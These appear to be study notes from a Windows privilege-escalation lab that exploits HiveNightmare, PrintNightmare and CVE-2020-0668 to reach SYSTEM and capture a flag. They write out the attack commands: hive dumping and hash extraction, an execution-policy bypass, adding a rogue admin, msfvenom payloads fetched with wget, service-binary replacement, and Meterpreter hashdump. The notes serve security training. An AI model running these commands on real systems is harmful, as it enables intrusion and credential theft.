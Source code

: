 ### Enumeration Commands
```powershell
systeminfo
wmic qfe list brief
Get-Hotfix
icacls
whoami /priv
ls \\localhost\pipe\spoolss
```

### Exploitation Commands
```powershell
HiveNightmare.exe
impacket-secretsdump
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
msfvenom
python3 -m http.server <port>
wget http://<ip>:<port>/<file>
CVE-2020-0668.exe <source> <destination>
copy /Y <source> <destination>
msfconsole -r <resource_file>
net start MozillaMaintenance
```

### Verification Commands
```powershell
net user hacker
getuid # (Meterpreter)
hashdump # (Meterpreter)
```



**Key Concepts:**

- **Kernel Exploits:**
    - Exploit vulnerabilities in the Windows kernel for privilege escalation.
    - Patching is crucial, but often incomplete.
- **Historical Vulnerabilities:**
    - MS08-067 (Server service RCE).
    - MS17-010 (EternalBlue, SMB RCE).
    - ALPC Task Scheduler 0-Day (Local privilege escalation).
    - CVE-2021-36934 (HiveNightmare, registry access).
    - CVE-2021-1675/CVE-2021-34527 (PrintNightmare, print spooler RCE).
    - CVE-2020-0668 (Service Tracing local privilege escalation).
- **Patch Management:**
    - Importance of keeping systems updated.
    - Older vulnerabilities remain relevant.

**Approach, Commands, Tools, and Techniques:**

1. **Enumeration:**
    - `systeminfo`, `wmic qfe list brief`, `Get-Hotfix` (Installed updates).
    - `icacls` (File permissions).
    - `whoami /priv` (User privileges).
    - `ls \\localhost\pipe\spoolss` (Spooler service check).
2. **Exploitation:**
    - **HiveNightmare (CVE-2021-36934):**
        - `HiveNightmare.exe` (Dump registry hives).
        - `impacket-secretsdump` (Extract hashes).
    - **PrintNightmare (CVE-2021-1675/CVE-2021-34527):**
        - `Set-ExecutionPolicy Bypass -Scope Process` (Bypass PowerShell execution policy).
        - `Import-Module .\CVE-2021-1675.ps1` (Import PowerShell exploit).
        - `Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"` (Add local admin).
    - **CVE-2020-0668 (Service Tracing):**
        - Build exploit in Visual Studio.
        - `msfvenom` (Generate malicious binary).
        - Python HTTP server, `wget` (Download binary).
        - `CVE-2020-0668.exe` (Run exploit).
        - `copy` (Replace service binary).
        - Metasploit resource script, `msfconsole -r` (Start listener).
        - `net start MozillaMaintenance` (Start service).
3. **Verification:**
    - `net user hacker` (Verify user creation).
    - `getuid` (Meterpreter, verify SYSTEM privileges).
    - `hashdump` (Meterpreter, dump password hashes).

**Commands:**

- `systeminfo`, `wmic qfe list brief`, `Get-Hotfix`, `icacls`, `whoami /priv`, `ls`, `Set-ExecutionPolicy`, `Import-Module`, `Invoke-Nightmare`, `msfvenom`, `python3 -m http.server`, `wget`, `copy`, `msfconsole`, `net user`, `net start`, `getuid`, `hashdump`, `impacket-secretsdump`.

**Tools:**

- `HiveNightmare.exe`, `impacket`, Metasploit, PowerShell scripts, custom exploits.

**Task:**

- RDP to the target.
- Exploit HiveNightmare, PrintNightmare, and CVE-2020-0668.
- Escalate privileges to NT AUTHORITY\SYSTEM.
- Retrieve the flag from the Administrator Desktop.
